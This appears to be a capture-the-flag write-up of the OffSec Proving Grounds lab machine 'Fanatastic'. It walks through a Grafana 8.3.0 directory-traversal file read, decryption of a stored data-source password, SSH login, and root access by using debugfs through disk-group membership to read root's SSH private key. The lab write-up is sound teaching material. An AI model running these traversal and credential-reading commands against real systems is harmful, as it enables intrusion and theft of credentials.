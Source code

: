 ```yaml
---
title: "Proving grounds Practice: Fanatastic"
layout: post
date: 2023-10-03 01:00
tag: 
- CTF
- Offsec labs
- OSCP
- Writeup
- Linux
- PG-Practice
- Grafana
- LFI
writeups: true
hidden: true
author: Naveen
description: "Offsec proving grounds practice linux machine writeup"
---
```


## Nmap

```text
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 c1994b952225ed0f8520d363b448bbcf (RSA)
|   256 0f448badad95b8226af036ac19d00ef3 (ECDSA)
|_  256 32e12a6ccc7ce63e23f4808d33ce9b3a (ED25519)
3000/tcp open  ppp?
| fingerprint-strings: 
|   FourOhFourRequest: 
|     HTTP/1.0 302 Found
|     Cache-Control: no-cache
|     Content-Type: text/html; charset=utf-8
|     Expires: -1
|     Location: /login
|     Pragma: no-cache
|     Set-Cookie: redirect_to=%2Fnice%2520ports%252C%2FTri%256Eity.txt%252ebak; Path=/; HttpOnly; SameSite=Lax
|     X-Content-Type-Options: nosniff
|     X-Frame-Options: deny
|     X-Xss-Protection: 1; mode=block
|     Date: Tue, 03 Oct 2023 14:48:53 GMT
|     Content-Length: 29
|     href="/login">Found</a>.
```

## PORT: 3000 - open

Grafana login page: http://192.168.194.181:3000/login

Grafana version - v8.3.0 is vulnerable to [Grafana 8.3.0 - Directory Traversal and Arbitrary File Read](https://www.exploit-db.com/exploits/50581). Run the exploit to read the local files.

Read `/etc/passwd` to know about the users in the system, `/etc/grafana/grafana.ini` to extract the secret that's been used to encrypt the grafana password. Finally, read `/var/lib/grafana/grafana.db` which contains the encrypted data source password.

User below curl command to download the `grafana.db` file.

```sh
naveenj@hackerspace:|11:12|~/proving_grounds/Fanatastic/files$ curl  --path-as-is http://192.168.194.181:3000/public/plugins/alertlist/../../../../../../../../var/lib/grafana/grafana.db -O grafana.db
```

Open the file in sqlite and click Browse Data select the `data_source` tab and copy the basic auth detials.

```text
secret_key = SW2YcwTIb9zpOOhoPsMm
basicAuthPassword = anBneWFNQ2z+IDGhz3a7wxaqjimuglSXTeMvhbvsveZwVzreNJSw+hsV4w==
```

Exploit to decrypt the password [CVE-2021-43798](https://github.com/jas502n/Grafana-CVE-2021-43798). Make changes to the code accordingly and run it.

```sh
naveenj@hackerspace:|11:19|~/proving_grounds/Fanatastic/files/Grafana-CVE-2021-43798$ go run AESDecrypt.go 
[*] grafanaIni_secretKey= SW2YcwTIb9zpOOhoPsMm
[*] DataSourcePassword= anBneWFNQ2z+IDGhz3a7wxaqjimuglSXTeMvhbvsveZwVzreNJSw+hsV4w==
[*] plainText= SuperSecureP@ssw0rd


[*] grafanaIni_secretKey= SW2YcwTIb9zpOOhoPsMm
[*] PlainText= jas502n
[*] EncodePassword= NDAyQzFWQURLMIs9DT7F3U/R56XpIjb4tPONCv10Og==
naveenj@hackerspace:|11:19|~/proving_grounds/Fanatastic/files/Grafana-CVE-2021-43798$
```

**Credentials**: `sysadmin:SuperSecureP@ssw0rd`

The username was found in the `/etc/passwd` file. SSH to the machine using the credentials to obtain initial foothold.


## Privilege Escalation

Upon checking for exploitation the user `sysadmin` has permission to the disk.

```sh
uid=1001(sysadmin) gid=1001(sysadmin) groups=1001(sysadmin),6(disk)
```

Knowing the user is part of the disk group, the enumeration of the entire disk with root privilege is achievable. We also have full read-write access to the disk block files, so we can extricate these or write arbitrary data to them. With the disk group, we are effectively root, just in a roundabout way. We will explore the partition where the `/` (root) directory is mounted on in this case `/dev/sda2`.

```sh
sadmin@fanatastic:~$ df -h      #check for mounted disks
Filesystem      Size  Used Avail Use% Mounted on
udev            445M     0  445M   0% /dev
tmpfs            98M  1.1M   97M   2% /run
/dev/sda2       9.8G  5.7G  3.7G  61% /         #expoitable
tmpfs           489M     0  489M   0% /dev/shm
tmpfs           5.0M     0  5.0M   0% /run/lock
tmpfs           489M     0  489M   0% /sys/fs/cgroup
/dev/loop0       71M   71M     0 100% /snap/lxd/21029
/dev/loop1       56M   56M     0 100% /snap/core18/2284
/dev/loop2       62M   62M     0 100% /snap/core20/1328
/dev/loop3       68M   68M     0 100% /snap/lxd/21835
/dev/loop4       56M   56M     0 100% /snap/core18/2128
/dev/loop5       33M   33M     0 100% /snap/snapd/12883
/dev/loop6       44M   44M     0 100% /snap/snapd/14549
tmpfs            98M     0   98M   0% /run/user/1001
```

### Exploitation

```sh
sysadmin@fanatastic:~$ debugfs /dev/sda2
debugfs 1.45.5 (07-Jan-2020)
debugfs:  cd /root
debugfs:  cat proof.txt
1583█████████████████████████
debugfs:
```

In order to get a root shell read the `id_rsa` key file located on `/root/.ssh/` folder and SSH to the root user.

```sh
ebugfs:  cat /root/.ssh/id_rsa
-----BEGIN OPENSSH PRIVATE KEY-----
b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAABlwAAAAdzc2gtcn
NhAAAAAwEAAQAAAYEAz1L/rbeJcJOc5T4Lppdp0oVnX0MgpfaBjW25My3ffAeJTeJwM1/R
YGtnByjnBAisdAsqctvGjZL6TewN4QNM0ew5qD2BQUU38bvq1lRdvbaD1m+WZkhp6DJrbi
42MKCUeTMY5AEPBPe4kHBN294BiUycmtLzQz5gJ99AUSQa59m6QJso4YlC7OCs7xkDAxSJ
pE56z1yaiY+y4l2akIxbAz7TVmJgRnhjJ4ZRuV2TYuSolJiSNeUyIUTozfRKl56Zs8f/QA
4Pd9AvSLZPN+s/INAULdxzgV3X9xHYh2NfRe8hw1Ju9OeJZ9lqQNBtFrit0ekpk75CJ2Z6
AMDV5tNlEcixwf/nMhjQb7Q/Oh4p7ievBk47f5t2dKlTsWw4iq1AX3FVA65n2TfD6cNISj
mxfQvXzMTPrs8KO7pHzMVQZZukOIwOEKwuZfNxIg4riGQvy4Cs+3c4w022UJ8oH36itgjr
pa4Ce+uRomYgRthDLaTNmk52TbZl0pg8AdDXB0SbAAAFgCd1RWkndUVpAAAAB3NzaC1yc2
.....
```

**Root Obtained**

```sh
naveenj@hackerspace:|21:58|~/proving_grounds/Fanatastic/files$ chmod 600 id_rsa #apply permission
nveenj@hackerspace:|21:59|~/proving_grounds/Fanatastic/files$ ssh root@192.168.192.181 -i id_rsa #ssh to root
Welcome to Ubuntu 20.04.3 LTS (GNU/Linux 5.4.0-97-generic x86_64)
The list of available updates is more than a week old.
To check for new updates run: sudo apt update
Failed to connect to https://changelogs.ubuntu.com/meta-release-lts. Check your Internet connection or proxy settings


Last login: Tue Mar  1 18:46:45 2022
root@fanatastic:~# 
```

Thanks for reading!

For more insights and updates, follow me on Twitter: [@thevillagehacker](https://twitter.com/thevillagehackr).